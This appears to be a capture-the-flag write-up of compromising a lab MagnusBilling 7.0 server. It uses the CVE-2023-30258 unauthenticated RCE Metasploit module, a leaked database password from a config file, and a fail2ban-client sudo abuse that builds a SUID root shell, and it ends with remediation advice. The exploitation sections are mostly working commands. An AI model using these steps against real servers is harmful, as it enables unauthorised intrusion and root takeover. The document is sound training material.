

# MagnusBilling 7.0 CTF Write-up

## Summary
This report documents the exploitation of a MagnusBilling v7.0 server during a Capture The Flag (CTF) challenge. A critical unauthenticated RCE vulnerability (CVE-2023-30258) was used to gain a foothold on the server, followed by a privilege escalation leveraging misconfigured sudo permissions on `fail2ban-client`.

---

### Target Information

- **Target IP**: 10.10.19.151  
- **Platform**: Linux  
- **Web Application**: MagnusBilling v7.0  
- **Vulnerabilities Exploited**:  
  - CVE-2023-30258 (Unauthenticated Remote Code Execution)  
  - Misconfigured Fail2Ban (Local Privilege Escalation)  
  - Hardcoded database credentials

---

### Phase 1: Initial Compromise

#### Network Reconnaissance
```bash
nmap -sV -sC 10.10.19.151
```

Discovered HTTP service on port 80 running MagnusBilling.

#### Vulnerability Research
Identified public exploit for unauthenticated RCE:

•	Rapid7 Module: exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258

A Metasploit module is available:
```
exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```

#### Exploitation
```bash
msf6 > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
msf6 exploit() > set RHOSTS 10.10.19.151
msf6 exploit() > set LHOST 10.9.3.170
msf6 exploit() > set TARGET 0
msf6 exploit() > exploit
```
**Result**: Meterpreter session obtained as user `asterisk`.

---

### Phase 2: Post-Exploitation

### User Flag
```bash
meterpreter > cat /home/magnus/user.txt
```
**User Flag**: `THM{............}`

### Credential Discovery

Found credentials in `/etc/asterisk/res_config_mysql.conf`:
```
dbhost = 127.0.0.1  
dbname = mbilling  
dbuser = mbillingUser  
dbpass = BLOGYwvtJkI7uaX5
```

---

### Privilege Escalation

#### Check sudo permissions:
```bash
sudo -l
```
Output:
```
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

#### Local Privilege Escalation with `fail2ban-client`

**1. Copy Fail2Ban config:**
```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/
```

**2. Create payload script:**
```bash
cat > /tmp/script <<EOF
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script
```

**3. Custom action config:**
```bash
cat > /tmp/fail2ban/action.d/custom-start-command.conf <<EOF
[Definition]
actionstart = /tmp/script
EOF
```

**4. Create custom jail:**
```bash
cat >> /tmp/fail2ban/jail.local <<EOF
[my-custom-jail]
enabled = true
action = custom-start-command
EOF
```

**5. Restart Fail2Ban with custom config:**
```bash
sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```

**6. Run the SUID shell:**
```bash
/tmp/bash -p
```

---

### Root Flag
```bash
cat /root/root.txt
```
**Flag**: `THM{.......}`

---

## Attack Flow (Graph)



---

## Critical Findings

| Vulnerability                         | Risk      | Impact                  |
|--------------------------------------|-----------|--------------------------|
| CVE-2023-30258 (Unauthenticated RCE) | Critical  | Full system compromise  |
| Fail2Ban misconfiguration            | High      | Local privilege escalation to root |
| Hardcoded DB credentials             | Medium    | Potential data theft or DB tampering |

---

## Remediation Recommendations

### Immediate Actions
- Patch MagnusBilling to the latest version.
- Revoke NOPASSWD sudo privileges for `fail2ban-client`.
- Rotate all credentials found in configuration files.

### Long-Term Improvements
- Enforce least privilege principle across all services.
- Perform regular vulnerability scans and patch assessments.
- Apply application allowlisting and endpoint protection.

### Defensive Measures
- Restrict remote access to admin interfaces.
- Monitor sudo activity and critical file access logs.
- Deploy a host-based intrusion detection system (HIDS).

---

## Appendices

### Technical References
- [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)
- [Fail2Ban Local Privilege Escalation](https://juggernaut-sec.com/fail2ban-lpe/)

---

## Timeline
- **Discovery**: 2025-03-25  
- **Exploitation**: 2025-03-25  
- **Report Generated**: 2025-03-26
